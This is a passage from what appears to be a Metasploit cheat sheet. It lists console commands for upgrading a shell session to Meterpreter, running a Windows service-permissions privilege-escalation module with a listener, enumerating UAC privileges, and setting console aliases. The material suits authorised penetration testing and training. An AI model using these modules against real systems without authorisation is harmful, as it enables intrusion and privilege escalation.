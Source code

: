 #### Upgrade Shell to Meterpreter
```ruby
use post/multi/manage/shell_to_meterpreter
set SESSION 1
```

### Privilege Escalation

#### Service

```ruby
use exploit/windows/local/service_permissions
run lhost=0.0.0.0 lport=12222
```


#### UAC Enumeration

```ruby
use post/windows/gather/win_privs
set SESSION 1
```

## Plugins

### Alias

```ruby
load alias
alias s set
alias sg setg
```

#### Aliases


| Alias | Command  |
| ----- | -------- |
| sr    | search   |
| s     | set      |
| sg    | setg     |
| r     | run      |
| u     | use      |
| o     | options  |
| a     | alias    |
| adv   | advanced |
| rc    | resource |
